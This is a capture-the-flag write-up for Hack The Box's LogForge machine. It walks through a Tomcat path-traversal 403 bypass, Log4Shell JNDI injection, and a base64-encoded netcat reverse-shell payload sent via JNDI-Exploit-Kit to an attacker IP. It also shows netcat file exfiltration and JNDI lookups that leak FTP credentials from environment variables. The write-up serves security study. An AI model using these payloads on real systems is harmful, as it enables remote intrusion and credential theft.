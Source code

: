 ## HTB Logforge (Medium) - Writeup

Difficulty: Medium

Discovered a Tomcat server with a /manager panel, accessed via a 403 bypass using a path traversal trick.  
Identified and exploited Log4Shell by injecting a JNDI payload in a logged parameter, leading to RCE.  
Gained a reverse shell using a serialized CommonsCollections gadget via JNDI Exploit Kit.  
Escalated to root by exfiltrating environment variables through Log4j to retrieve FTP credentials, then SSH’ed in with a leaked private key.  

---

## Nmap 

#### The nmap scan revealed two open and two filtered ports:  

![obraz](https://github.com/user-attachments/assets/0ece98b9-cef6-4d45-a3a3-f90b4ee531e8)



## Port 80 - Website  

The website consists solely of a static image, with no interactive or visible functionality.  

![obraz](https://github.com/user-attachments/assets/d312d04b-86a8-4f03-8c27-6f5f9e1c7776)  

Running Feroxbuster revealed the /admin directory, which returns a 403 Forbidden error.  

![obraz](https://github.com/user-attachments/assets/5a2e7c4a-5b0f-4ec1-aaca-9911d45f078e)

It also revealed that the website is running tomcat because of directories like /manager.  

We can check the headers with curl:  
```
curl -I http://10.10.11.138/
```
![obraz](https://github.com/user-attachments/assets/fbdeb2ba-365e-4216-ab4a-7fc06120e697)

It returns with Java cookie which indicates that backend is written in Java.  
Tomcat is also written in Java meaning it's another hint.  
We can re-run feroxbuster with additional extensions and different list:  
```
feroxbuster --url http://10.10.11.138/ -x js,jsp,java,xml -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
![obraz](https://github.com/user-attachments/assets/6da9c81a-f398-4eac-be41-438626053592)

It found index.jsp but nothing more of interest.  



## 403 bypass trick

If we go to /manager we get 403 access denied.  
There is a report written by Orange Tsai that is a must read if you didn't do it already:  
```
https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
```
I'll paste the part about tomcat here:  

![obraz](https://github.com/user-attachments/assets/815b0036-d80d-4262-814f-d6d2a8c43d4c)

It bypasses Tomcat’s path parsing and normalization logic.  

We can now access:  
```
http://<ip>/x/..;/manager
```
Luckily for us default credentials worked
+  tomcat:tomcat

![obraz](https://github.com/user-attachments/assets/a3030bff-0336-4526-89c6-a23499c5101e)



## Log4Shell - exploitation  

Given the name of the box there might be a log4shell vulnerability.  
There is an application /UHC{BadWayToBlockTomcat}  
We can click on expire and catch a request with burpsuite:  

![obraz](https://github.com/user-attachments/assets/35653c2b-6171-4198-83aa-deefeb5ad9be)

There is only one parameter called "idle", we can try basic log4shell payload to test if that's a case here.  
For it to work we must put a paylod in the field that will be logged by log4j java library.  
```
{% raw %} idle=${jndi:ldap://10.10.14.5/x}  {% endraw %}
```
And start tcpdump to listen for pings:  

![obraz](https://github.com/user-attachments/assets/995635a4-df56-4f8f-b3cf-4bdd462f0263)

![obraz](https://github.com/user-attachments/assets/665c180b-521b-4747-b257-f2cbfc9a9d85)

It works, now we want to get shell access.  
I had many problems with getting this shell.  
First I tried to run python server and marshalsec-jar ldap server but it couldn't redirect to my python server.  
Then I tried creating .ser paylod with ysoserial and running JNDI EXPLOIT KIT but it didin't work either.  
Finally the thing that worked was creating a payload directly in JNDI EXPLOIT KIT.  
In order to exploit this we need JNDI EXPLOIT KIT:  
```
git clone https://github.com/pimps/JNDI-Exploit-Kit.git 
mvn clean package -DskipTests
cd target
```
Then run it:  
```
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar
```
Now run a special query to create a payload and run it:  
```
{% raw %}  ${jndi:ldap://10.10.14.5:1389/serial/CommonsCollections5/exec_unix/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pICAyPiYxfG5jIDEwLjEwLjE0LjUgIDkwMDUgPi90bXAvZg==} {% endraw %}
```
It failed with most of the payloads but the one we used and succeed was:  
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i  2>&1|nc 10.10.14.5  9005 >/tmp/f
```
In final payload we had to base64 encode it:  

![obraz](https://github.com/user-attachments/assets/21269274-b002-4327-9ce2-2b0b16194190)

It then gets to our server:  

![obraz](https://github.com/user-attachments/assets/1ba06685-e2e7-4653-bcf0-c88455d0f991)

And finally gives us a shell access:  

![obraz](https://github.com/user-attachments/assets/1f97c494-ae4c-4cd8-b974-5a46369af3af)



## Priv Esc

First we can retrieve a flag:  

![obraz](https://github.com/user-attachments/assets/ec491b2e-a816-4008-afaf-cc7e90cbf557)

There is a file ftpServer-1.0-SNAPSHOT-all.jar we can move it with netcat:  
```
Attacker:  
nc -nvlp 80 > ftpServer-1.0-SNAPSHOT-all.jar

Target:    
nc -w 3 10.10.14.5 80 < ftpServer-1.0-SNAPSHOT-all.jar
```

![obraz](https://github.com/user-attachments/assets/f40be02c-0e19-472e-bb6c-607ed71a4bcb)

![obraz](https://github.com/user-attachments/assets/e8255198-0ede-47e1-88cd-144e0d41b838)


To reverse engineer java files we can use jd-gui:  

![obraz](https://github.com/user-attachments/assets/0301bf26-20e8-4a05-81fd-95b4083759a0)

After looking through code we found credentials as two environment variables being set:  

![obraz](https://github.com/user-attachments/assets/bdce03e3-d03b-4656-8cef-c7725411091d)

In the username parameter it uses log4j library:  

![obraz](https://github.com/user-attachments/assets/1cb1e8a1-6d7a-45cf-9896-685d5bb6cf9e)

It means that we can connect to ftp and in the username parameter put JNDI payload like we did in the website to get a shell access.  
For it to work we need to start jdni exploit kit server as before.  
Then log into ftp on the target machine twice and use following payloads:  
```
{% raw %} ${jndi:ldap://10.10.14.5:1389/${env:ftp_user}} {% endraw %}
{% raw %} ${jndi:ldap://10.10.14.5:1389/${env:ftp_password}} {% endraw %}
```












































































